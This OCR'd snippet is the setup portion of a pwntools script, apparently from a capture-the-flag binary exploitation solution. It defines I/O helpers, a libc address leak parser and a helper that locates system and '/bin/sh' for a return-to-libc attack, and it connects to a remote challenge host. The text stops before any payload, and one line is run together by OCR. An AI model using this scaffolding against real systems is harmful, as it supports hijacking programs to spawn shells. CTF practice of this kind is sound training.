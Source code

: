 ```python
from pwn import *

from struct import pack

from ctypes import *

 

def s(a):

  p.send(a)

def sa(a, b):

  p.sendafter(a, b)

def sl(a):

  p.sendline(a)

def sla(a, b):

  p.sendlineafter(a, b)

def r():

  p.recv()

def pr():

  print(p.recv())

def rl(a):

  return p.recvuntil(a)

def inter():

  p.interactive()

def debug():

  gdb.attach(p)

  pause()

def get_addr():

  return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

def get_sb():

  return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

 

context(os='linux', arch='amd64', log_level='debug')

\#p = process("./pwn2")

p = remote('47.94.206.10', 34904)elf = ELF("./pwn2")

libc = ELF('./libc-2.31.so')
```